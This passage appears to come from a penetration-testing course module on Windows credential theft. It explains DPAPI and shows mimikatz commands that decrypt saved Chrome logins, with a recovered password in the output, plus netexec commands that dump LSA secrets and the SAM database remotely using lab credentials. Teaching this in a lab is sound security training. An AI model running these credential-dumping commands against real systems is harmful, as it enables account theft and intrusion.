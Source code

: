 ## DPAPI
In addition to the DCC2 hashes, we previously saw that the `machine and user keys` for `DPAPI` were also dumped from `hklm\security`. The Data Protection Application Programming Interface, or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection), is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).

```cmd
C:\Users\Public> mimikatz.exe

mimikatz# dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect




> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```

## Remote dumping & LSA secrets considerations
With access to credentials that have `local administrator privileges`, it is also possible to target LSA secrets over the network. This may allow us to extract credentials from running services, scheduled tasks, or applications that store passwords using LSA secrets.
#### Dumping LSA secrets remotely
```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
#### Dumping SAM Remotely
```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
